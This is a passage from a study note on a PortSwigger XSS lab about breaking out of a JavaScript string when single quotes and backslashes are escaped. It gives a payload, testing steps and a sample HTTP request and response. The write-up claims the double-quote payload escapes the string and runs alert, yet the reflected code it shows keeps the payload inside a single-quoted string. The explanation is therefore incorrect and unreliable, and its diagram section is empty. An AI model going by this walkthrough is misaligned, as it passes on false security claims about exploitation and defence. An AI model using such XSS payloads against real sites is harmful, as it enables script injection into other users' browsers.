

## Exploiting the Vulnerability

### Breaking Out of the String Context

To exploit this vulnerability, we need to find a way to break out of the string context despite the escaping mechanisms. One effective technique is to use a combination of characters that can bypass the escaping mechanism.

#### Using Double Quotes

One approach is to use double quotes (`"`) instead of single quotes (`'`). Since the application only escapes single quotes and backslashes, double quotes remain unescaped. We can leverage this to break out of the string context.

Consider the following payload:

```plaintext
", alert("XSS"), "
```

When this payload is reflected, it will look like this:

```html
<script>
    var userInput = '", alert("XSS"), "';
    alert(userInput);
</script>
```

This effectively breaks out of the string context and executes the `alert("XSS")` function.

### Crafting the Payload

Let's craft the payload step-by-step:

1. **Identify the Injection Point**: Determine where the user input is reflected within the JavaScript string.
2. **Choose the Right Characters**: Use double quotes (`"`) to bypass the escaping mechanism.
3. **Construct the Payload**: Ensure the payload breaks out of the string context and executes the desired JavaScript code.

Here is the complete payload:

```plaintext
", alert("XSS"), "
```

### Testing the Payload

To test the payload, follow these steps:

1. Open the lab in your browser.
2. Enter the payload in the search query field.
3. Submit the form and observe the result.

If successful, you should see an alert box pop up with the message "XSS".

### Full HTTP Request and Response

Here is the full HTTP request and response for the payload:

**HTTP Request:**

```http
POST /search HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

query=%22%2C+alert(%22XSS%22)%2C+%22
```

**HTTP Response:**

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <script>
        var userInput = '", alert("XSS"), "';
        alert(userInput);
    </script>
</body>
</html>
```

### Mermaid Diagram: Attack Flow

A mermaid diagram can help visualize the attack flow:



---
<!-- nav -->
[[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/22-Lab 21 Reflected XSS into a JavaScript string with single quote and backslash escaped/01-Introduction to Cross-Site Scripting (XSS)|Introduction to Cross-Site Scripting (XSS)]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/22-Lab 21 Reflected XSS into a JavaScript string with single quote and backslash escaped/00-Overview|Overview]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/22-Lab 21 Reflected XSS into a JavaScript string with single quote and backslash escaped/03-How to Prevent  Defend Against XSS|How to Prevent  Defend Against XSS]]
